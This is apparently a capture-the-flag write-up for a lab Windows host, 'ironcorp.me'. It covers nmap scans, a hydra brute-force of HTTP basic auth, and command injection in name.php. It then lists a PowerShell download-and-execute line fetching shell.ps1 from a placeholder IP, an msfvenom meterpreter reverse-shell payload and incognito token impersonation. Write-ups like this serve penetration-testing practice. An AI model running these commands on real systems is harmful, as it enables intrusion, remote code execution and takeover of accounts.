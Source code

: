 # Enumeration
## NMAP Top 1000
```
# Nmap 7.91 scan initiated Sat Aug 14 19:47:33 2021 as: nmap -sC -sV -oN scans/nmap1000 -vv -Pn 10.10.40.140
Nmap scan report for 10.10.40.140
Host is up, received user-set (0.039s latency).
Scanned at 2021-08-14 19:47:33 UTC for 21s
Not shown: 996 filtered ports
Reason: 996 no-responses
PORT     STATE SERVICE       REASON  VERSION
53/tcp   open  domain        syn-ack Simple DNS Plus
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-8VMBKF3G815
|   NetBIOS_Domain_Name: WIN-8VMBKF3G815
|   NetBIOS_Computer_Name: WIN-8VMBKF3G815
|   DNS_Domain_Name: WIN-8VMBKF3G815
|   DNS_Computer_Name: WIN-8VMBKF3G815
|   Product_Version: 10.0.14393
|_  System_Time: 2021-08-14T19:47:43+00:00
| ssl-cert: Subject: commonName=WIN-8VMBKF3G815
| Issuer: commonName=WIN-8VMBKF3G815
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-13T19:38:23
| Not valid after:  2022-02-12T19:38:23
| MD5:   b5c8 f997 585f a8b4 78f8 49ed 114b 3037
| SHA-1: 8495 8758 0afe afa0 8880 f587 78c8 9625 faa3 5079
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQSvdQJH52SLxF0VX+qVuexTANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9XSU4tOFZNQktGM0c4MTUwHhcNMjEwODEzMTkzODIzWhcNMjIw
| MjEyMTkzODIzWjAaMRgwFgYDVQQDEw9XSU4tOFZNQktGM0c4MTUwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDQUEe51Sjw56pNQN7RJ5eVUAvCvTihmMV7
| JYyLhc3eaGbLxv+nR8/+ugqAtHwU8g5iZHhjPX4eWJyZdH50IYEFF09LPP1EBj3a
| zVqV6sKhcqQpr2qDr93mRYg55of8cMaqPNOPG/BxTn02nfuVZFv6DGbRXB85h3jR
| g9lrB0erWiNyO4+1zTqWmRsB9efKroGGJ1lgUB+Geb8/qGerph9daGLzALY3Z5Z8
| ovK/pOEzarzmPrhCMvQdV1aCX1L+V8qSmx0Rltq0T1hnWYQ6st90pcvCizvukfgU
| 7HNskYjd5LRVlPL2eH0dWNIJ8KHPxPWHMOrk2kFSI/38a3EUs/qFAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAl+64jdhlAb2T85v61ze5iW9imCx3EBR27kRy6zoMuB7i1adWtwHQtt4c
| w26RcI28QRHQ+OkUh4vFEJ54Q1rdESuovtZLOV92t1UeDJI4w8cHRlsWPm11LZ4D
| eTwDIlzT1LV864TbIEGKqiuC/vtWPsNmp7ZghiaCIK0ixFsqylO6LBlVL3Zts/M6
| CTKDt4dmxvcVg8VgB7ehbELsbI/55IRQdNs9XVd/e+ytcYagnl82t5khDhw7qz2G
| LRtbo0FPMngjrEnivelGgJFXBn8Udl/YqF0pMggohskbu8X2Imlw4r8FOx9jG1xY
| DvPT38RPBxreryJmDU523vV5BHJQDA==
|_-----END CERTIFICATE-----
|_ssl-date: 2021-08-14T19:47:51+00:00; -3s from scanner time.
8080/tcp open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Dashtreme Admin - Free Dashboard for Bootstrap 4 by Codervent
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -3s, deviation: 0s, median: -3s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 14 19:47:54 2021 -- 1 IP address (1 host up) scanned in 20.74 seconds
```

## NMAP FULL 
```
# Nmap 7.91 scan initiated Sat Aug 14 20:03:37 2021 as: nmap -p- -oN scans/nmapFull -Pn -vv -T4 --min-rate 2500 10.10.40.140
Nmap scan report for ironcorp.me (10.10.40.140)
Host is up, received user-set (0.061s latency).
Scanned at 2021-08-14 20:03:37 UTC for 52s
Not shown: 65528 filtered ports
Reason: 65528 no-responses
PORT      STATE SERVICE       REASON
53/tcp    open  domain        syn-ack
135/tcp   open  msrpc         syn-ack
3389/tcp  open  ms-wbt-server syn-ack
8080/tcp  open  http-proxy    syn-ack
11025/tcp open  unknown       syn-ack
49667/tcp open  unknown       syn-ack
49670/tcp open  unknown       syn-ack

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Aug 14 20:04:29 2021 -- 1 IP address (1 host up) scanned in 52.77 seconds
```


## Potential Users
`webmaster@internal.ironcorp.me`
`admin@ironcorp.me`


## Subdomains Port 11025
`admin`
`internal`


## Credentials
We manage to bruteforce the http-basic authentication on `admin.ironcorp.me:11025` with the following hydra command.

`hydra -l admin -P /opt/SecLists/Passwords/xato-net-10-million-passwords-10000.txt -s 11025 -f admin.ironcorp.me http-get /`

This gets a hit with
`admin:password123`


## LFI/RCE

We find that if you access `http://internal.ironcorp.me:11025` it provides a link to `http://internal.ironcorp.me:11025/name.php?name=` we are able to use `|` and run commands e.g `name=test|dir	`

### Notable commands for file transfer
`powershell.exe -c "IEX(New-Object Net.WebClient).DownloadString('http://<IP>/shell.ps1'); shell.ps1`



Invoke-WebRequest "http://<IP>/shelly.exe" -OutFile "shell.exe"


reee make funky payload for meterpreter because we didn't *try harder*

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x64/shikata_ga_nai -b '\0x00' -f exe > shelly.exe`

with this we can load incognito to list user tokens
```
> load incognito
> list_tokens -u 

>impersonate_token "<REDACT>\Admin"
```
